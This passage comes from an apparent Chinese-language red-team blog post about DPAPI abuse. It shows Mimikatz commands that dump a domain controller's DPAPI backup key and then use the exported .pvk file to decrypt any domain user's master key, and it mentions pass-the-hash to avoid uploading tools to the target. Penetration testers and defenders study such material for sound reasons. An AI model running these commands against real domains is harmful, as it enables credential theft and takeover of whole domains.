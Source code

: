 ### Using Domain Backup Key

该方式需要已经将需要解密的 Master Key file 拷贝到本地，并且已经从域控制器中转储域备份密钥，则可以在任何一台计算机上恢复域内任意用户的 MasterKey。

我们可以通过已获取的域管理员级别的权限，使用 Mimikatz 的以下命令从域控制器中转储域备份密钥。但是，在真实渗透行动中，往往无法直接获取域管理员的明文密码。此外，为了避免将工具直接上传到目标主机，我们需要先在本地执行哈希传递，之后在域管理员的上下文中执行转储操作。

```powershell
lsadump::backupkeys /system:"<Domain Controller>" /export
```

![image-20250929125856616](/assets/posts/2025-09-30-from-dpapi-to-chrome-a-journey-to-entra-id-takeover/image-20250929125856616.png)

如上图所示，转储过程会生成 3 个不同后缀命名的文件，其中最重要的就是 `*.pvk` 文件。`.pvk` 扩展名也有“私钥“的意思。

然后可以通过 `*.pvk` 文件恢复目标用户的 Master Key：

```powershell
dpapi::masterkey /in:"<Path to MASTER_KEY_FILE>" /pvk:"<Path to DOMAIN_BACKUP_KEY_EXPORT_PVK_FILE>"
```
